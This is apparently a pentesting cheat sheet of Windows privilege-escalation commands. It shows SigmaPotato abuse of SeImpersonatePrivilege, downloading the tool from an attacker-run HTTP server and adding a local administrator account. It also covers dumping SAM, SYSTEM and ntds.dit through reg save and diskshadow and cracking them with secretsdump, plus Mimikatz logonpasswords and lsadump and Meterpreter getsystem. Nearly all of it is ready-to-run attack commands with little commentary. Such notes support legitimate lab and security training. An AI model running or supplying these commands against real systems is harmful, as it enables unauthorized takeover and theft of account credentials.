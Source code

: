 # Enumerate Privileges of current user
```batch
whoami /priv
```
# Privileges known to lead to Privilege Escalation
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug

In most configurations, IIS (Windows Webserver) will run as LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity, which all have SeImpersonatePrivilege assigned.

This also applies to other Windows services.
# SeImpersonatePrivilege
To exploit this privilege, SigmaPotato (or other "potato" exploits) can be used to trick "NT AUTHORITY\SYSTEM" into authenticating into a malicious named pipe, allowing us to execute commands as them.
```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```
```bash
python -m http.server 80
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SigmaPotato.exe -OutFile SigmaPotato.exe
```
```powershell
.\SigmaPotato "net user dave4 lab /add"
```
```powershell
.\SigmaPotato "net localgroup Administrators dave4 /add"
```
# SeBackupPrivilege
Domain Controllers won't store passwords in SAM but NTDS.dit - however old passwords could still be there. Always run BOTH on DC.
## Local Windows
```
mkdir C:\temp
```
```
reg save HKLM\SAM SAM
```
```
reg save HKLM\SYSTEM SYSTEM
```
Then transfer the sam and system files to kali (i.e. download on winrm, shared folder on xfreerdp, etc).

Then run the following to dump hashes:
```bash
impacket-secretsdump local -sam SAM -system SYSTEM
```
## Domain Controller
Save this as diskshadow.txt:
```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```
```
unix2dos diskshadow.txt
```
Upload the created file to the target.

On the remote target, run the following:
```
mkdir C:\temp
```
```
diskshadow /s diskshadow.txt
```
```
robocopy /b E:\Windows\ntds . ntds.dit
```
Transfer ntds.dit from the target to the attacker machine.

Then run the following to dump hashes:
```
impacket-secretsdump local -ntds ntds.dit -system system
```
# Mimikatz
If a user has either of the following privileges, mimikatz can be used:
* SeImpersonatePrivilege
* SeDebugPrivilege

Once mimikatz is transferred to the target windows device, run it as administrator via powershell.

Enable SeDebugPrivilege (require for dumping passwords):
```
privilege::debug
```
Elevate privileges to SYSTEM (also required):
```
token::elevate
```
Dump plaintext and hashed passwords from ALL sources:
```
sekurlsa::logonpasswords
```
Dump only NTLM hashes from SAM database:
```
lsadump::sam
```
# Meterpreter
```
getsystem
```

